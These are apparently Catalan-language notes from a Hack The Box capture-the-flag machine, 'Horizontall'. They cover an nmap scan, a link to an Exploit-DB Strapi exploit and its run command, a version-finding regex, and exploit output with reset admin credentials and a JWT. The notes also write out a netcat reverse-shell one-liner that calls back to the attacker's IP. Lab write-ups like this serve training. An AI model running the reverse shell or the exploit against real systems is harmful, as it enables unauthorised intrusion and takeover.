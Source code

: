 Ens afegim la ip 10.10.11.105 al fitxer host

10.10.11.105 horizontall.htb

nmap:

nmap -p- -sV 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 18:35 CET
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.056s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Wappalyzer diu:

nginx 1.14.0

COPIEM L'SCRIPT EN PYTHON QUE UTILITZA UNA VULNERAVILITAT DE strapi

https://www.exploit-db.com/exploits/50239

python script.py http://api-prod.horizontall.htb/

COMANDA PER OBRIR UN TERMINAL REMOT CAP AL NOSTRE HOST:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.18 3535 >/tmp/f

Per trobar la versio dstrapi en el codi:

api-prod..../admin/init -> tambe hi ha la versio de l'strapi

strapi.*[123]\.[0]\.\d

Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzOTEzMDQ2LCJleHAiOjE2NDY1MDUwNDZ9.IaeuvUzBwcBf6wdCu_icF4Dr2ydI0NrnlN0tqp8qk8w
